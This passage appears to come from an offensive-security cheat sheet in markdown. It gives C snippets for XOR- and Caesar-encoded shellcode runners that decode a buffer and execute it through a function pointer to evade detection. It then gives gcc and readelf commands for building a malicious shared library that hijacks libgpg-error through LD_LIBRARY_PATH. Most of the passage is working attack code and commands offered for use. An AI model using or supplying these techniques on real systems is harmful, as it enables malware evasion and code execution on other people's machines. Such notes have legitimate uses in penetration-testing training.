 [Full Source](../src/c/ScRunnerXor.c)

```
for (int i=0; i<arraysize-1; i++)
{
    buf[i] = buf[i]^xor_key;
}
int (*ret)() = (int(*)())buf;
```

#### Caesar Encrypted Shellcode Runner

##### Caesar Encryptor

[Full Source](../src/c/ScRunnerCaesar.c)

```
for (int i=0; i<buflen;i++)
{
    printf("\\x%02X",buf[i]+4 & 0xFF);
}
```

##### Caesar Runner

[Full Source](../src/c/ScRunnerCaesar.c)

```
for (int i=0; i<buflen-1;i++)
{
    buf[i] = buf[i]-4 & 0xFF;
}

int (*ret)() = (int(*)())buf;
```

### Nix Shared Library Hijacking

#### LD-LIBRARY_PATH

Compile [shared lib payload](../src/c/stub-shared-lib.c)

```
gcc -z execstack -Wall -fPIC -c -o hax.o hax.c
```

*fPIC tels compiler to use position independent code which is suitable for shared libs because they are loaded in unpredictable memory lcation. -c tells gcc to compile but not link the code*

Create shred lib.

```
gcc -z execstack -shared -Wl,--version-script gpg.map -o libhax.so hax.o
```

Find symbols - copy these into payload

```
readelf --wide -s /lib/x86_64-linux-gnu/libgpg-error.so.0
```
